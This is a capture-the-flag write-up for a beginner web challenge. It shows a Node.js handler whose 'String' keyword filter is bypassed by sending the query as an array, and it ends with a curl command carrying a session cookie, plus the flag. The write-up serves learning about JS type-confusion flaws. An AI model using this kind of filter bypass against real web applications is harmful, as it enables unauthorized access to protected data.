


# Baby Web 🕸️

> Category: Web Exploitation 🕸️
>
> Description: Enter the right key and retrieve the flag? Sound easy right?

## Walkthrough



We found out that the key is actually a string and not actually creating random bytes.
```js
const key = "randomBytes(16).toString('hex')";
```

We also found out that we need to make sure the **"second if"** is correct and bypass the **""first if""** to get the flag:
```js
 if (query.includes("String")) {
    return res.send(htmlPage("❌ Access Denied: Suspicious pattern detected."));
  }

  if (query.includes(key)) {
    return res.send(htmlPage("✅ Key matched: " + query + "\n🎉 Here is your flag: fakeflag{not the flag, and i love teh ais :D}"));
  } else {
    return res.send(htmlPage("❌ Key did not match."));
  }
```

If we directly paste the key which is **"randomBytes(16).toString('hex')"** straight to the query it will not pass the first if as it contains **"String"**.

## Solution

We need to craft the query as array **"query[]"** so that the first **"if"** can be bypassed due to it checks the word **"String"** in a string query and not checks each character in **"String"** inside the query **("S" + "t" + "r" + ...)**.

So, just send the curl command to get the flag.

```bash
curl -X POST http://<chall-ip>:<chall-port>/search -b "session=eyJjaGFsbGVuZ2UiOiJzLkFBQW5FQT09LnIvVXFzcXdzMkFwRlF5eXlzdVZ2NGc9PSJ9.aF_Ytg.zYhGiydutph2h21QjDu3ElUZ7cg" -d "query[]=randomBytes(16).toString('hex')"
```



## 🏳️Flag:
>prelim{i_was_confused_ab_what_to_make--so_i_made_a_js_type_confusion_baby_challenge_ehhe}